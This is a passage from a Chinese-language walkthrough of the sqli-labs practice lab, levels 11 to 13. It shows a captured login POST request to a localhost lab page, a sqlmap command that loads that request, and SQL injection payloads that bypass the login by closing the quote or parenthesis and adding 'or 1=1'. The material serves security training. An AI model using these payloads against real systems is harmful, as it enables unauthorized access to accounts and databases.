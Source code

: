 后面的过程和Sql-labs-Less-1的union注入一样，就不再赘述

还可以用sqlmap

直接将 Burpsuite 截取的数据包内容保持为文本格式 sql11.txt

```http
POST /sql1/Less-11/ HTTP/1.1
Host: 127.0.0.1
Content-Length: 30
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/sql1/Less-11/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

uname=1&passwd=s&submit=Submit
```

然后使用 sqlmap 的 -r 参数来加载这个请求包：

```python
python sqlmap.py -r sql11.txt
```

### Sql-labs-Less-12

有报错，有回显，双引号+括号闭合，union注入

可尝试联合、报错、布尔盲注、延时盲注

payload

```sql
uname=1") or 1=1#&passwd=&submit=Submit
```

### Sql-labs-Less-13

有报错，无回显，有布尔状态，单引号+括号闭合 报错注入

payload

```sql
uname=1') or 1=1#&passwd=&submit=Submit
```
